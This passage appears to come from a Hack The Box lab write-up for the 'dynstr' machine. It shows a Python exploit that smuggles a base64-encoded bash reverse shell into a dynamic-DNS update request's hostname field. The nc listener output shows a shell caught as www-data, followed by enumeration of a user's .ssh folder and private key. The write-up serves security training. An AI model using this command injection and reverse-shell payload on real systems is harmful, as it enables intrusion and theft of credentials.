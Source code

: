 Now let's add a payload to the exploit to get the shell.

```python
#!/usr/bin/python3

import requests
from base64 import b64encode

payload = b'bash -i >& /dev/tcp/10.10.16.55/443 0>&1'
payload_b64 = b64encode(payload).decode()
credentials_b64 = b64encode(b'dynadns:sndanyd').decode()
url = 'http://dyna.htb/nic/update'
headers = {'Authorization': 'Basic ' + credentials_b64}
params = {'hostname': '`echo "{}" | base64 -d | bash`.dnsalias.htb'.format(payload_b64), 'myip': '10.10.16.55'}

response = requests.get(url, headers=headers, params=params)
print(response.text)
```

```console
elpollon@elpollon:~/HTB/dynstr/exploits$ ./exploit.py

```

At this point we get the reverse shell as **www-data** user in the other terminal.

```
elpollon@elpollon:~/HTB/dynstr$ nc -nlvp 443

listening on [any] 443 ...
connect to [10.10.16.55] from (UNKNOWN) [10.10.10.244] 60992
bash: cannot set terminal process group (795): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dynstr:/var/www/html/nic$ 
```

Inside `/home` directory we see 2 users.

```console
www-data@dynstr:/$ cd home
www-data@dynstr:/home$ ls -l
total 8
drwxr-xr-x 5 bindmgr bindmgr 4096 Mar 15  2021 bindmgr
drwxr-xr-x 3 dyna    dyna    4096 Mar 18  2021 dyna
```
Nothing was found on dyna's home. In bindmgr's home was found interest things, including a **.ssh** folder.

```console
www-data@dynstr:/home/bindmgr/.ssh$ ls -l
total 16
-rw-r--r-- 1 bindmgr bindmgr  419 Mar 13  2021 authorized_keys
-rw------- 1 bindmgr bindmgr 1823 Mar 13  2021 id_rsa
-rw-r--r-- 1 bindmgr bindmgr  395 Mar 13  2021 id_rsa.pub
-rw-r--r-- 1 bindmgr bindmgr  444 Mar 13  2021 known_hosts
```

